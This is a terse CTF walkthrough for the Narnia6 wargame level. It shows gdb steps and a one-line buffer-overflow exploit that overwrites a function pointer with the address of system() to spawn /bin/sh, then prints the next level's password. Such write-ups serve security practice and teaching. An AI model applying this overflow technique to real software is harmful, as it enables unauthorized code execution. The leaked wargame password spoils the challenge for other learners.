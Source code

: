 buffer overflow enables us to overwrite function pointer fp which is called with b1 as argument. Address of function pointer cannot be in the stack, as it is compared with the stack pointer. 

gdb narnia6
break main
run a b
info address system
system address is 0xf7e4c850
argument must be /bin/sh

buffer overflow using b2.

./narnia6 a bbbbbbbb/bin/sh$(echo -ne ";\x50\xc8\xe4\xf7")
cat /etc/narnia_pass/narnia7
ahkiaziphu
